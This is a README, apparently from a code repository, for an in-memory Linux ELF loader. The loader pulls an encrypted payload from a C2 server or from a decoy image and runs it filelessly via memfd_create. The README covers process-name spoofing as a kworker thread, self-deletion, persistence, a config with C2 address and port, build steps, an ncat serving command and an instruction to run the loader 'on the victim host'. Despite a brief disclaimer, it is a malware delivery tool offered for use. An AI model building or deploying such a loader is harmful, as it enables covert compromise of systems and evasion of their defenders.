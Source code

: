 ## In-Memory Loader for Linux

This tool implements an **in-memory ELF loader** for Linux systems. It connects to a remote C2 (Command & Control) server over TCP, downloads a ELF payload (optionally encrypted and embedded in a decoy image), and executes it directly from memory using `memfd_create()`.

> ⚠️ **For educational and authorized use only.**
> Do not use this tool on systems you do not own or lack explicit permission to operate on.


### Key Features

* Pulls a payload from a remote C2 or local image file
* Optional AES-256-CBC encryption with a custom marker
* Uses `memfd_create()` to execute from memory with no filesystem drop
* Fake process name via `argv[0]` to evade process listings
* Temporary symlink spoofing to set custom `/proc/<pid>/status` names
* Deletes itself via `unlink("/proc/self/exe")` after startup
* Optional persistence by writing the payload+image to disk

### Configuration & Build

You define all parameters in a `config.json` file. The Python builder script (`builder.py`) handles:

* Payload encryption and embedding
* Loader patching with C constants
* Marker injection and key generation

#### Example `config.json`:

```json
{
  "image": "input.png",
  "binary": "payload.elf",
  "password": "supersecret",
  "output": "out.png",
  "loader": "loader.c",
  "patched": "loader_patched.c",
  "C2_IP": "192.168.1.10",
  "C2_PORT": 4444,
  "FAKE_PROC": "[kworker/0:1-events]",
  "FD_NAME": "error",
  "PROC_LINK": "/tmp/.cache-update",
  "EXTRACT_PATH": "/tmp/.hidden.png",
  "marker": "ENCRYPTED_PAYLOAD"
}
```

#### Build it:

```bash
python3 builder.py --config config.json
```

### Payload Input Modes

The payload can be retrieved and decrypted in **two ways**:

1. **Remote Plain ELF**
   The payload is served directly over the socket (no encryption).

2. **Remote or Local Encrypted Image**
   The encrypted payload is embedded into an image file and appended after a marker. The loader will:

   * Check for `EXTRACT_PATH` and load it if available
   * Otherwise, connect to the C2 to download it
   * Decrypt it using the marker and AES key

### Execution Modes

The loader supports **three execution modes**, based on configuration:

#### 1. In-Memory Only (Default)

If `PROC_LINK` is **empty**:

* Payload is loaded into memory using `memfd_create()`
* Executed via `fexecve()`
* No disk artifacts remain
* `/proc/<pid>/status` will show a numeric name (e.g., `Name: 5`)

#### 2. Temporary Symlink Execution

If `PROC_LINK` is **set**:

* A symlink is created to `/proc/self/fd/<fd>` (e.g. `/tmp/.cache`)
* The process is executed through the symlink to spoof its name
* The symlink is deleted automatically after a short delay (\~1s)
* This provides stealthier `/proc/<pid>/status` entries

#### 3. Persistence via Local Extraction

If `EXTRACT_PATH` is **set**:

* The encrypted image is stored on disk
* On subsequent runs, the loader will use this instead of redownloading
* Useful in restricted environments where remote access is limited

### Usage

1. **Generate the loader and image**:

```bash
python builder.py --config config.json
```

2. **Compile payload**:

```bash
gcc -o loader loader_build.c -lcrypto
```

3. **Serve the payload (if no EXTRACT\_PATH)**:

```bash
ncat -lvnp 4444 < encrypted.png
```

4. **Execute the loader on the victim host**:

```bash
./loader
```

### Forensics Traces

```bash
$ ps aux | grep kworker
root     1023  0.0  0.0   2344   500 ?        Ss   14:01   0:00 [kworker/0:1-events]
root     1025  0.0  0.0   3040  1428 pts/0    S+   14:01   0:00 grep kworker

$ cat /proc/1023/maps | grep memfd
00400000-00401000 r-xp 00000000 00:01 1234      /memfd:error (deleted)
0041f000-00420000 r--p 0000f000 00:01 1234      /memfd:error (deleted)
```
